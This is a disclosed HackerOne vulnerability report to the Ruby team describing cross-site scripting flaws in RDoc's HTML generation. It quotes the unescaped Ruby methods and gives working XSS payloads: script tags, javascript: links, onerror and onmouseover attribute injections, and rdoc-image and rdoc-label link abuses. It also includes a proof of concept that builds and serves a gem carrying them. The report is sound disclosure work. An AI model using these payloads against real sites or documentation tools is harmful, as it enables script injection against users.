# XSS in HTML generated by RDoc

## Report Details
- **Report ID**: 1187156
- **URL**: https://hackerone.com/reports/1187156
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2021-05-07T01:45:30.740Z
- **Disclosed**: 2023-07-18T08:42:11.872Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
XSS is possible in some places because escaping is not enough in the html generation part of RDoc.


### RDoc::Markup::ToHtml#gen_url

https://github.com/ruby/rdoc/blob/v6.3.0/lib/rdoc/markup/to_html.rb#L330

```ruby
  def gen_url url, text
    scheme, url, id = parse_url url

    if %w[http https link].include?(scheme) and
       url =~ /\.(gif|png|jpg|jpeg|bmp)$/ then
      "<img src=\"#{url}\" />"
    else
      if scheme != 'link' and /\.(?:rb|rdoc|md)\z/i =~ url
        url = url.sub(%r%\A([./]*)(.*)\z%) { "#$1#{$2.tr('.', '_')}.html" }
      end

      text = text.sub %r%^#{scheme}:/*%i, ''
      text = text.sub %r%^[*\^](\d+)$%,   '\1'

      link = "<a#{id} href=\"#{url}\">#{text}</a>"

      link = "<sup>#{link}</sup>" if /"foot/ =~ id

      link
    end
  end
```

```md
[<script>alert`link text`</script>](a)

[click](javascript:alert`javascript_scheme`)

[onmouseover](http://"/onmouseover="alert`on_mouse_link`")

[link_image](http://"onerror="alert`link_image`".png)
```

HTML containing the following XSS will be generated.

```html
<p><a href="a"><script>alert`link text`</script></a></p>

<p><a href="javascript:alert`javascript_scheme`">click</a></p>

<p><a href="http://"/onmouseover="alert`on_mouse_link`"">onmouseover</a></p>

<p><img src="http://"onerror="alert`link_image`".png" /></p>
```


### RDoc::Markup::ToHtml#handle_RDOCLINK

https://github.com/ruby/rdoc/blob/v6.3.0/lib/rdoc/markup/to_html.rb#L97

```ruby
  def handle_RDOCLINK url # :nodoc:
    case url
    when /^rdoc-ref:/
      $'
    when /^rdoc-label:/
      text = $'

      text = case text
             when /\Alabel-/    then $'
             when /\Afootmark-/ then $'
             when /\Afoottext-/ then $'
             else                    text
             end

      gen_url url, text
    when /^rdoc-image:/
      "<img src=\"#{$'}\">"
    else
      url =~ /\Ardoc-[a-z]+:/

      $'
    end
  end
```

```markdown
rdoc-image:"><script>alert(`rdoc-image`)</script>"

rdoc-label::path::"><script>alert(`rdoc-label_id`)</script>"

rdoc-label::"><script>alert(`rdoc-label_path`)</script>"

rdoc-ref:"><script>alert(`rdoc-ref`)</script>"

rdoc-xxx:"><script>alert(`rdoc-xxx`)</script>"
````

```html
<p><img src=""><script>alert(`rdoc-image`)</script>“”></p>

<p><a id="path::"><script>alert(`rdoc-label_id`)</script>“” href=“#”>:path::“><script>alert(`rdoc-label_id`)</script>”</a></p>

<p><a id=""><script>alert(`rdoc-label_path`)</script>“” href=“#”>:“><script>alert(`rdoc-label_path`)</script>”</a></p>

<p>“><script>alert(`rdoc-ref`)</script>”</p>

<p>“><script>alert(`rdoc-xxx`)</script>”</p>
```


### RDoc::Markup::ToHtmlSnippet#gen_url

https://github.com/ruby/rdoc/blob/v6.3.0/lib/rdoc/markup/to_html_snippet.rb#L168

```ruby
  def gen_url url, text
    if url =~ /^rdoc-label:([^:]*)(?::(.*))?/ then
      type = "link"
    elsif url =~ /([A-Za-z]+):(.*)/ then
      type = $1
    else
      type = "http"
    end

    if (type == "http" or type == "https" or type == "link") and
       url =~ /\.(gif|png|jpg|jpeg|bmp)$/ then
      ''
    else
      text.sub(%r%^#{type}:/*%, '')
    end
  end
```

```markdown
[<img/src="."/onerror=alert("search")>](a)
```

XSS tag is embedded in `js/search_index.js`.

```js
["search","","target/search_md.html","","<p><img/src=\".\"/onerror=alert(\"search\")>\n"]
````

### Rubygems RDoc home

https://github.com/ruby/rdoc/blob/v6.3.0/lib/rdoc/generator/template/darkfish/index.rhtml#L20

```html
<p>This is the API documentation for <%= @title %>.
```

XSS is possible because `@title` is not escaped in the template used when RDoc is run by rubygems.

---

### PoC

```
$ gem -v
3.2.17

$ rdoc -v
6.3.1
```

Build the gem using the attached `xss.md` and `rdoc_xss.gemspec` files.

```
$ gem build rdoc_xss.gemspec

$ gem install rdoc_title_xss-0.0.1.gem

$ gem sever
```

Confirm multiple xss by opening the http://0.0.0.0:8808/doc_root/rdoc_title_xss-0.0.1/ screen in browser.

{F1291736}

## Impact

XSS may be included if there is a function that generates html with RDoc for a file passed from the external.


One of the XSS attack methods was previously reported to gitlab. ( https://hackerone.com/reports/200693 )
( Probably sanitized by [html-pipeline](https://github.com/gjtorikian/html-pipeline).)

## Attachments
- xss.md
- rdoc_xss.gemspec
- rdoc_xss.png
